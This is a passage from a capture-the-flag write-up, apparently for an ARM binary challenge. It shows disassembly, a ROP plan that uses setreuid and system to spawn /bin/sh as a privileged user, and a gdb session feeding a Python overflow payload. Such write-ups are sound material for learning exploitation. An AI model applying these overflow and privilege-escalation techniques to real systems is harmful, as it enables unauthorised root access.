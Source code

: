 Awesome! so we've got control on the _pc_.<br>
Before we'll start ropping, after disassembling the binary the following function came to my eye:
```asm
00010574 <exec>:
   10574:	e92d4810 	push	{r4, fp, lr}
   10578:	e28db008 	add	fp, sp, #8
   1057c:	e24dd00c 	sub	sp, sp, #12
   10580:	e50b0010 	str	r0, [fp, #-16]
   10584:	ebffffa4 	bl	1041c <geteuid@plt>
   10588:	e1a04000 	mov	r4, r0
   1058c:	ebffffa2 	bl	1041c <geteuid@plt>
   10590:	e1a03000 	mov	r3, r0
   10594:	e1a01003 	mov	r1, r3
   10598:	e1a00004 	mov	r0, r4
   1059c:	ebffffb0 	bl	10464 <setreuid@plt>
   105a0:	e51b0010 	ldr	r0, [fp, #-16]
   105a4:	ebffffa5 	bl	10440 <system@plt>
   105a8:	e320f000 	nop	{0}
   105ac:	e24bd008 	sub	sp, fp, #8
   105b0:	e8bd8810 	pop	{r4, fp, pc}

```
**system**! Let's use it.<br>
So the plan is to overwrite the _lr_ value stored in the stack, store "/bin/sh" in a writable address, set r0 and r1 to _app-systeme-ch46-cracked_ (1246), and jump to 0x10594 so the program will setreuid to a privileged user (reminder - suid is set) and run "/bin/sh" with **system**.<br>

So first, let's write "/bin/sh" in a writable address. According to the recon., the obvious place to store it is in the .data section - it has enough size (/bin/sh\x00 = 8 bytes).<br>
So, let's take a look at instructions above the **scanf** function in the **main**. The buffer which will save the user's input is set in the instruction ```sub	r3, r11, #68	; 0x44```. Then r1 gets the address (```mov	r1, r3```) and afterward _r0_ will get the address for the "%s" format string.<br>
So, let's set fp to 0x21044 and jump to there, so _r1_ will contain 0x21000 (the .data section).<br>

```gdb
(gdb) run < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /challenge/app-systeme/ch46/ch46 < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00'")
Cannot parse expression `.L1185 4@r4'.
warning: Probes-based dynamic linker interface failed.
Reverting to original interface.

Give me data to dump:
Payload is: 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 44 10 02 

Breakpoint 1, 0x00010684 in main ()
(gdb) c
Continuing.
Payload is: 
2f 62 69 6e 2f 73 68 

Breakpoint 1, 0x00010684 in main ()
(gdb) x/1s 0x21000
0x21000:	"/bin/sh"
```
